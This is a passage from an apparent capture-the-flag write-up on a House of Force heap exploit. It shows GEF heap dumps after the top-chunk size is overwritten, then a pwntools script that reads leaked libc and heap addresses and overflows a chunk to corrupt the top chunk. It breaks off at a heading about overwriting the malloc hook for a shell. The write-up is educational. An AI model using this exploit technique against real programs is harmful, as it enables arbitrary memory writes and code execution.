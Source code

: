 Here is that same information after I deliberately do the overwrite of the top chunk metadata. Note how now, GEF effectively thinks that top chunk spans 0xfffffffffffffff8, which is significantly larger than the actually allocated heap. This simple overwrite means that now, the program thinks that writes to the heap can extend to absolute end of the programs memory, and careful calculations based on our leaks can give us arbitrary writes anywhere in memory that physically comes after the heap.
```
gef➤  x/20gx 0xfc2000
0xfc2000:       0x0000000000000000      0x0000000000000091
0xfc2010:       0x6161616161616161      0x6161616161616161
0xfc2020:       0x6161616161616161      0x6161616161616161
0xfc2030:       0x6161616161616161      0x6161616161616161
0xfc2040:       0x6161616161616161      0x6161616161616161
0xfc2050:       0x6161616161616161      0x6161616161616161
0xfc2060:       0x6161616161616161      0x6161616161616161
0xfc2070:       0x6161616161616161      0x6161616161616161
0xfc2080:       0x6161616161616161      0x6161616161616161
0xfc2090:       0x6161616161616161      0xffffffffffffffff
gef➤  heap chunks
Chunk(addr=0xfc2010, size=0x90, flags=PREV_INUSE)
    [0x0000000000fc2010     61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61    aaaaaaaaaaaaaaaa]
Chunk(addr=0xfc20a0, size=0xfffffffffffffff8, flags=PREV_INUSE|IS_MMAPPED|NON_MAIN_ARENA)  ←  top chunk
gef➤
```
Here is the exploit code that got me to that point.
```
from pwn import *

local = 1
if local == 1:
	target = process('./force')

	pid = gdb.attach(target, "\nb *main+286\nb *main+249\n set disassembly-flavor intel\ncontinue")
else:
	target = remote('0.cloud.chals.io', 11996)

libc = ELF('.glibc/glibc_2.28_no-tcache/libc.so.6')

def malloc_chunk(size, content):
    print(target.recvuntil(b'(2) Surrender'))
    target.sendline(b'1')
    print(target.recvuntil(b'How many midi-chlorians?:'))
    target.sendline(str(size).encode('ascii'))
    print(target.recvuntil(b'What do you feel?:'))
    target.sendline(content)
    
print(target.recvuntil(b'You feel a system at'))
system_libc = int(target.recv(15), 16)
print(hex(system_libc))

print(target.recvuntil(b'You feel something else at'))
heap_base = int(target.recv(10), 16)
print(hex(heap_base))

malloc_chunk(0x88, b'a' * 0x88 + p64(0xffffffffffffffff))

target.interactive()

```
### Overwriting the Malloc Hook and Getting a Shell
